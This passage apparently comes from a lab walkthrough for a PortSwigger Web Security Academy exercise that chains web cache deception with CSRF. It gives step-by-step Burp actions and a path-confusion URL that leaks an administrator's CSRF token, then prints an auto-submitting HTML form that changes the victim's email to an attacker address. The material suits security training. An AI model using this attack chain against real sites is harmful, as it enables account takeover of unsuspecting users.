 ```html
```
11. Store exploit
12. Deliver exploit to victim
13. Param Miner > Settings > Disable "Add dynamic cachebuster"
14. Make request in repeater to the cached URL `/my-account;%2f%2e%2e%2frobots.txt?foo=aaa` - **Note:** You have 30 seconds from when you delivered the exploit
	1. Receive `X-Cache: hit` and see the administrator's page as well as their CSRF token in the email change field. Save the CSRF token value
15. Go to exploit server
16. Craft a malicious page that will deliver a CSRF attack
```html
<html>
	<body>
		<form action="https://0af8009503ce14d482d7475f00ac004e.web-security-academy.net/my-account/change-email" method="POST">
			<input type="hidden" name="email" value="owned@evil.net" />
			<input type="hidden" name="csrf" value="ADH8JWDXOoLbqvF37OmcI0nfKZEb00oM" />
		</form>
		<script>
			document.forms[0].submit();
		</script>
	<body>
</html>
```
- In the wiener account, change the email to get the right information needed for the request
- Use the CSRF token from the administrator's cached page
17. Store exploit
18. Deliver exploit to victim